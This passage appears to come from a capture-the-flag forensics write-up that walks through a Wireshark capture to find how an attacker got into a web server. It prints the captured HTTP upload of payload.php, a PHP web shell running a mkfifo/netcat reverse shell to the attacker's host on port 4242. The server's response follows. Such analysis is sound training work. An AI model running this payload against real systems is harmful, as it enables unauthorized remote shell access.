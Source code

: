 Answer: `/development/`

## #1.2 - What payload did the attacker use to gain access?

Now, from the streams popup window in Wireshark, browse the streams by clicking on the "+" icon at the right stream field. The next stream contains the payload used to create a reverse shell:

~~~
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.GET /development/uploads/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 472
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

............_o.0....)..0m..I....'F..D!*T.4...
....1l...!LM'X.......s.K.$...k:....	...&.!..._.C..E...{!.J.J.GSD.Ha.%=.R........t...	z	...(u....MUj.k.[...C..4.5r.k.......B.4......+.#.+D.\..6y.....qV2......+m.........h.)aP.....a<...	.S.......c..NXma..\J.O....._....ID..YY..3.].n.\.u.\....0].E.k.`..f....t......F.....@4e.- .F.V...g[.Veuu.{...F.
~~~